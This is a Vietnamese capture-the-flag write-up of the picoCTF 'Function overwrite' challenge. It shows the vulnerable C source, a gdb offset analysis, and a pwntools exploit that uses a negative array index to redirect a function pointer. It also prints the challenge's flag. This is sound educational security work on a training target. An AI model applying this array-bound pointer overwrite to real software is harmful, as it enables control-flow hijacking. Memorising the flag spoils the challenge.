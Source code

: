 # Function overwrite
### Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}
void (*check)(char*, size_t) = hard_checker; // dong nay de lam gi
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
### Analysis

Ta có hàm `main` chỉ có chức năng là gọi `vuln`. Kế tiếp là hàm `vuln`, đầu tiên nó bắt mình nhập `input` có độ lơn `127 byte `rồi sau đó bắt nhập tiếp 2 số, `num1` phải nhỏ hơn `10`, k biết để làm gì =)). Rồi sau đó, sẽ lấy `fun[num1] + num2`. Cuối cùng gọi đến `check`. `Check` đang trỏ tới hàm `hard_checker`. `Hard_checker` sẽ cộng từng phần tử trong `input` ta nhập lần đầu tiên vào, nếu bằng `13371337` thì sẽ in ra `flag`. Điều này là không khả thi. Ký tự có giá trị lớn nhất cũng chỉ có `128` mà ta chỉ có thể nhập `128` ký tự nên giá tối đa có thể nhập là `16,384` hoàn toàn không thể thỏa mãn được điều kiện. Chắc cũng chính vì thế mà hàm `easy_checker` đc tạo ra, với điều kiện bé hơn - chỉ là `1337` nên hoàn toàn có thể pass. Vấn đề là làm sao để có thể gọi được `easy_checker` thay vì `hard_checker`? 

Với 2 dữ kiện đề bài cho: `Array_bound` và `function overwrite` tớ nghĩ có thể lợi dụng được 

```c
 if (num1 < 10)
  {
    fun[num1] += num2;
  }
```
Để tiến hành overwrite `check` trỏ tới `easy_checker`, đầu tiên phải kiểm tra được `check` đang nằm ở đâu so với `fun`

```java
gef➤  info var
All defined variables:

Non-debugging symbols:
0x0804a000  _fp_hw
0x0804a004  _IO_stdin_used
0x0804a160  __GNU_EH_FRAME_HDR
0x0804a398  __FRAME_END__
0x0804bf08  __frame_dummy_init_array_entry
0x0804bf08  __init_array_start
0x0804bf0c  __do_global_dtors_aux_fini_array_entry
0x0804bf0c  __init_array_end
0x0804bf10  _DYNAMIC
0x0804c000  _GLOBAL_OFFSET_TABLE_
0x0804c038  __data_start
0x0804c038  data_start
0x0804c03c  __dso_handle
0x0804c040  check   <------ đây
0x0804c044  __TMC_END__
0x0804c044  __bss_start
0x0804c044  _edata
0x0804c060  completed
0x0804c080  fun     <------ đây nữa
0x0804c0a8  _end
gef➤  p/d 0x0804c080 - 0x0804c040
$1 = 64
```

Vậy `check` cách `fun` 1 khoảng `64 byte`. Nhưng do `fun` là mảng `int` với mỗi phần tử lớn `4 byte` và `check` nằm ở phía dưới của `fun` nên `check` sẽ ở phần tử `fun[-16]`. Tiếp theo có thể lợi dụng được phép cộng trong câu điều kiện if trên để `overwrite` `hard_checker` thành `easy_checker`. Trước tiên phải tìm được `offset` giữa 2 bên:

```java
gef➤  p easy_checker
$2 = {<text variable, no debug info>} 0x80492fc <easy_checker>
gef➤  p hard_checker
$3 = {<text variable, no debug info>} 0x8049436 <hard_checker>
gef➤  p/d 0x8049436 - 0x80492fc
$4 = 314
```
Vậy `check` phải trừ đi 1 khoảng 314 để có thể `overwrite` thành `easy_checker`. Và input ta phải nhập lần đầu sao cho cộng lại thành `1337` là được, ở đây tớ dùng `b'~'*10 + b'M'` do 1 ký tự '~' là 127 và M là 77 cộng lại vừa đủ 1337

### Exploit

```python
from pwn import *

p = remote('saturn.picoctf.net', 63574)
payload = b'~'*10 + b'M'
p.sendlineafter(b'>> ',payload)
p.sendlineafter(b'\n', b'-16 -314')
p.recvall()
p.interactive()
```
```java
trungdo@TEFO: /function_over_write$ python3 bruhh.py DEBUG
[+] Opening connection to saturn.picoctf.net on port 63574: Done
[DEBUG] Received 0x3b bytes:
    b"Tell me a story and then I'll tell you if you're a 1337 >> "
[DEBUG] Sent 0xc bytes:
    b'~~~~~~~~~~M\n'
[DEBUG] Received 0x53 bytes:
    b'On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n'
[DEBUG] Sent 0x9 bytes:
    b'-16 -314\n'
[+] Receiving all data: Done (69B)
[DEBUG] Received 0x45 bytes:
    b"You're 1337. Here's the flag.\n"
    b'picoCTF{0v3rwrit1ng_P01nt3rs_529bfb38}\n'
[*] Closed connection to saturn.picoctf.net port 63574
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
```
`flag: picoCTF{0v3rwrit1ng_P01nt3rs_529bfb38}`
